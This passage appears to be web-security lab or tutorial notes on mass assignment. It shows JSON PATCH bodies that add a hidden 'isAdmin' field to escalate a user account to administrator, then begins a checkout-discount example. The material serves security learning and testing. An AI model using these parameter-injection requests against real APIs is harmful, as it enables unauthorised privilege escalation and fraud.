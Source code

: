 ```json
{
    "username": "wiener",
    "email": "wiener@example.com",
}
```

A concurrent `GET /api/users/123` request returns the following:

```json
{
    "id": 123,
    "name": "John Doe",
    "email": "john@example.com",
    "isAdmin": "false"
}
```

This can indicate that the hidden ID and isAdmin parameters are bound to the internal user object, alongside the updated username and email parameters. To test if you can modify the isAdmin paramter, add it to the request:

```json
{
    "username": "wiener",
    "email": "wiener@example.com",
    "isAdmin": false,
}
```

Also attempt to send a PATCH request with an invalid value:

```json
{
    "name": "John Doe",
    "email": "john@example.com",
    "isAdmin": "foo"
}
```

If different behaviours occur, it suggests the invalid value impacts the query logic. Send a PATCH request with the value set to true:

```json
{
    "name": "John Doe",
    "email": "john@example.com",
    "isAdmin": true
}
```

If the `isAdmin` value in the request is bound to the user object without adequate validation and sanitization, the user `wiener` may be incorrectly granted admin privileges.

For example, use all the functionality to popular Burp's HTTP history for review. Afterwards, you may notice a request such as GET /api/checkout which returns the following information in response:

```json
{
  "chosen_discount": {
    "percentage": 0
  },
  "chosen_products": [
    {
      "product_id": "1",
      "name": "Lightweight \"l33t\" Leather Jacket",
      "quantity": 1,
      "item_price": 133700
    }
  ]
}
```